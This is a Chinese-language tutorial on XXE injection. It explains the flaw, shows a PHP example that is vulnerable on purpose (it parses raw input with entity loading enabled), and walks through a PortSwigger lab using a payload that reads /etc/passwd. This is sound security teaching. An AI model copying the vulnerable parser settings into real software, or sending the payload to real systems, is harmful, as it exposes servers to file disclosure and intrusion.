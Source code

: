 # 一、XML外部实体注入概述
1. XML外部实体注入（XML External Entity Injection，简称XXE）是一种常见的安全漏洞，通常出现在使用XML解析器的Web应用程序中。XXE漏洞的本质是程序没有对用户输入进行充分的验证和过滤，导致攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作。攻击者可以利用XXE漏洞，获取敏感信息、篡改数据、控制服务器等。
2. 在Web应用程序中，经常存在一些功能，例如：上传文件、导入数据等，这些功能处容易出现XXE漏洞。具体来说，这些功能通常会涉及到XML解析器，如果程序没有对用户输入进行充分的验证和过滤，攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作，从而导致XXE漏洞的出现。
# 二、代码示例
1. 使用PHP编写一个存在XML外部实体注入的代码示例
```PHP
// 这是一个存在XXE漏洞的PHP代码示例
// 在此示例中，我们使用一个XML文件来模拟用户输入
// 获取用户输入
$xml = file_get_contents('php://input');
// 解析XML
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
// 获取XML中的数据
$data = $doc->getElementsByTagName('data')->item(0)->nodeValue;
// 输出数据
echo $data;
```
2. 这段代码存在XXE漏洞，因为它没有对用户输入进行充分的验证和过滤，攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作。为了防止XXE漏洞，应该对用户输入进行充分的验证和过滤。
# 三、BurpSuite靶场示例
1. 打开BurpSuite靶场[XML外部实体注入](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)，同时打开BurpSuite抓包
![1.png](./img/XXE/1.png)
2. 进入一个商品详情页，点击商品详情页下方的check stock
![2.png](./img/XXE/2.png)
3. 查看BurpSuite的抓包记录，发现有XML实体请求
![3.png](./img/XXE/3.png)
4. 修改该XML实体请求尝试读取敏感文件，如下
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			&xxe;
		</storeId>
	</stockCheck>
```
5. 发送修改后的数据包，成功读取到/etc/passwd文件
![4.png](./img/XXE/4.png)